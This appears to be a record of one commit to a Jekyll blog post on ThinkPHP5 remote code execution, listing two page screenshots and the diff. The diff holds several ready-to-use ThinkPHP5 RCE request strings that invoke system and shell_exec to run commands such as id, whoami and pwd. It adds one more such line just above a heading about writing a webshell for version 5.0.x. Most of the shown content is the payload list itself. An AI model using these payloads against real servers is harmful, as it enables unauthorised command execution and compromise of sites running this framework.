

Before and after one commit to kerno-yep/kerno-yep.github.io, a Jekyll site: the page built from _posts/2022-10-01-thinkphp5_RCE.md, in a window 1280 px wide and 900 px high, scrolled down 1919 px. Shown: the top 867 px of the window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
modified:   _posts/2022-10-01-thinkphp5_RCE.md

```diff
--- a/_posts/2022-10-01-thinkphp5_RCE.md
+++ b/_posts/2022-10-01-thinkphp5_RCE.md
@@ -85,6 +85,7 @@
 ?s=index/\think\Request/input&filter[]=system&data=pwd
 ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
+?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='whoami'
 
 #写入webshell
 5.0.x
```
